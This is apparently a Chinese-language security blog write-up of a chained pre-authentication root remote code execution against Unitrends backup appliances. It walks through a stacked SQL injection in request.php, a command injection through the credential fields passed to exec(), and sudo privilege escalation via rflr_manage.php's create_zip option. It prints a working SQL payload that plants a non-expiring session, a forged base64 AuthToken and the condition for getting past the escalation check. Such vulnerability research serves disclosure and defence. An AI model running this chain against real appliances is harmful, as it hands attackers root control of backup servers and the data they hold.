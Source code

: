 ```yaml
---
title: "Unitrends backup pre-auth RCE"
date: 2024-09-20T09:10:24+08:00
tags: ["rce", "unitrends"]
---
```


三个漏洞组合成的认证前root rce，做个小记录

### 认证前SQLI（有条件）

在文件 `/grid/config/request.php` 中

```php
<?php

/* If this script has PHP errors, bail out */
error_reporting(-1);
ini_set("display_errors", 1);
ini_set("html_errors", 0);

libxml_use_internal_errors(true);
$str = file_get_contents('php://input');
if (isset($str)) {
	$xml = simplexml_load_string($str);
	if (!$xml) {
		echo "Failed: ill-formed XML.\n";
		libxml_clear_errors();
		exit(1);
	}
	else {
		$ret = process_request($str);
		if ($ret === false) {
			$msg = bp_error();
			echo "$msg";
			exit(1);
		}
		else {
			echo "Success: $ret";
			exit(0);
		}
	}
}
else {
	echo "Error: Invalid request.";
	exit(1);
}

?>
```

`$_POST` 完全可控，经xml解析后直接传入 `process_request`，这是个扩展函数，扩展位于 `/usr/lib64/php/modules/bpl.so`，在扩展中会重新dlopen `/usr/lib64/lobbpext.so.1`，在二进制中找到函数 `process_request`
 
![](/img/unitrends-pre-auth-rce/1.png)

其中 `hostname_value`、`identity_value` 与 `asset_tag_value` 都是从xml中取出来的数据，`pgVExec` 是执行的原生sql并没有使用参数绑定，存在SQL注入

![](/img/unitrends-pre-auth-rce/2.png)

> 前置条件

在取xml的值之前，会有一次条件判断

![](/img/unitrends-pre-auth-rce/3.png)

`cmc_openvpn server confirm` 必须为 `true`，命令实现为

```bash
function confirm
{
	test -f ${KEYS_DIR}/dh2048.pem &&
	test -f ${OPENVPN_DIR}/bin/updateCRL &&
	test -f ${OPENVPN_DIR}/crl.pem &&
	test -f ${OPENVPN_DIR}/inbound.conf &&
	test -f ${KEYS_DIR}/ca.key &&
	test -f ${KEYS_DIR}/ca.crt
	
	return $?
}

case $1 in
	server)
		if [ $# -eq 2 -a "$2" = confirm ]
		then
			confirm
			if [ $? -eq 0 ]
			then
				echo -n "true"
			else
				echo -n "false"
			fi
			exit 0
```

这里可以通过post一个单节点空内容的xml来判断是否可以做攻击

### 认证后命令注入

在 `api/includes/systems.php` 中的 `update` 函数中，有一个switch分支

```php
case 'add-management':
	if (is_numeric($which) && $which > 0) {
		$data['id'] = (int)$which;
	}
	$system = $this->BP->get_system_info($data['id']);
	if ($system !== false) {
		//$credentialCheck = $this->hasValidCredentials($system['name'], $data['credentials']['username'], $data['credentials']['password']);
		$credentialCheck = $this->functions->grantManagementToLocalSystem($system['name'], $data['credentials']['username'], $data['credentials']['password']);
		if ($credentialCheck === true) {
			$status = $this->BP->add_mgmt_to_replication_source($system['id']);
		} else {
			$status = array('error' => 500, 'message' => $credentialCheck);
		}
	} else {
		$status = array('error' => 500, 'message' => 'System with this id was not found.');;
	}
	break;
```

 `$data` 的值为 `json_decode(file_get_contents("php://input"))` 完全可控，其中 `credentials` 带入了 `grantManagementToLocalSystem` 函数中，函数定义在 `api/includes/function.lib.php`
	
> 这里必须有一个存在的 `$system` 的值，这个值是从数据库中获取，一般都会存在一个，id为1

```php
public function grantManagementToLocalSystem($ip, $username, $password) {
	$granted = true;
	$localHostInfo = $this->BP->get_hostname();
	if ($localHostInfo !== false) {
		$host = $localHostInfo['name'];
		$grantCommand = sprintf("/usr/bp/bin/rungrant.php  '%s'  '%s'  '%s'  '%s'", $ip, $username, $password, $host);
	  //  global $Log;
	  //  $Log->writeVariable("command is " . $grantCommand);
		exec($grantCommand, $outputArray, $returnValue);
		// if $returnValue is 0, okay, leave $granted as true.
		if ($returnValue !== 0) {
			$granted = implode("\n", $outputArray);
		}
	} else {
		$granted = "Could not determine local appliance host name.";
	}
	return $granted;
}
```

由于 `$username` 和 `$password` 可控，并且直接带入了命令字符串中，造成命令注入

### 提权

在 `/etc/sudoers` 中可以看到针对apache有一些规则

```
Defaults:apache targetpw, timestamp_timeout=0
apache  ALL = NOPASSWD:  /usr/bp/bin/footprintReportUtil, \
                        /var/www/html/grid/portal/rflr_manage.php, \
                       /usr/bp/bin/cmc_restrict_ports, \
              PASSWD: /usr/bin/passwd, \
                      /sbin/shutdown, \
                      /bin/bash, \
                      /usr/bin/whoami
postgres ALL=(root) NOPASSWD: /usr/bp/bin/elk/elk_job_handler.sh,/usr/bp/bin/elk/elk_alert_handler.sh
```

跟进 `/grid.portal/rflr_manage.php` ，这是一个只能在cli下运行的php文件

```php
$options = getopt($shortopts, $longopts);
foreach (array_keys($options) as $opts) switch ($opts) {
  case 'create_zip':
    $createZip = true;
    $start_dir = (isset($options['create_zip']) ? $options['create_zip'] : '');
    $opt++;
  break;

else if ($createZip === true) {
  $result = doCreateZip($start_dir, $zipDelFiles);
}

function doCreateZip($startDir, $deleteAfterZip)
{
  global $log;
  global $zipBaseDir;
  global $debug;

  $func = "doCreateZip()";
  fprintf($log, "%s, %s\n", $func, $startDir);

  $zipDir = "$startDir";
  if ($debug) { fprintf($log, "%s, startDir: %s\n", $func, $zipDir); }

  $zipDir  = (substr($zipDir, 0, 1) == '/' ? $zipDir : '/'.$zipDir);
  $zipDir .= (substr($zipDir, -1,1) == '/' ? '' : '/');

  if ($debug) { fprintf($log,"%s, zipDir: %s\n", $func, $zipDir); }
  # define the zip file
  $zipFileName = "Unitrends-Restore" . rand(0, 999) . ".zip";
  $zipFileFull = $zipDir . $zipFileName;

  if (!isset($zipDir) || !strstr($zipDir, $zipBaseDir)) {
    fprintf(STDERR, "Starting directory is not allowed!");
    exit(1);
  }

  $cmd = "cd $zipDir; find . ! -type l | zip -0 $zipFileFull -@ > /dev/null 2>&1";
  if ($debug) { fprintf($log,"%s, find filelist and create zip cmd: %s\n", $func, $cmd); }
  system($cmd, $res);
```

传入参数 `create_zip` 经过一些目录处理后，直接带入了 `$cmd` 字符串，之后直接使用 `system` 执行，造成命令注入，所以可以在 `apache:apache` 下使用sudo运行这个文件，在 `create_zip` 参数中写入高权限命令，即可完成提权，需要注意的是这里有一个判断，不然会exit掉

```php
if (!isset($zipDir) || !strstr($zipDir, $zipBaseDir))
```

`$zipBaseDir = "_rflr"`，也就是说命令字符串中需要包含这个，随便构造一下即可 

![](/img/unitrends-pre-auth-rce/4.png)

### 利用

由于注入点可以堆叠，所以可以考虑直接向数据库写数据，这里的表结构中存在一张sessions表，判断用户登录也是先从header的authtoken中取出uuid进行比较，所以可以直接堆叠写入一个不过期的session

```
1234';insert into sessions(user_id,uuid,expiration) values(1,'aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa',9999999999);--
```

之后伪造一次 cookie

```
base64_encode("v0:aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa:1")
djA6YWFhYWFhYWEtYWFhYS1hYWFhLWFhYWEtYWFhYWFhYWFhYWFhOjE=
```

这个值就可以作为认证后的AuthToken头使用，此时拥有了访问认证后功能的能力

![](/img/unitrends-pre-auth-rce/5.png)

之后就可以使用认证后命令注入，配合提权直接使用root权限进行命令执行

![](/img/unitrends-pre-auth-rce/6.png)
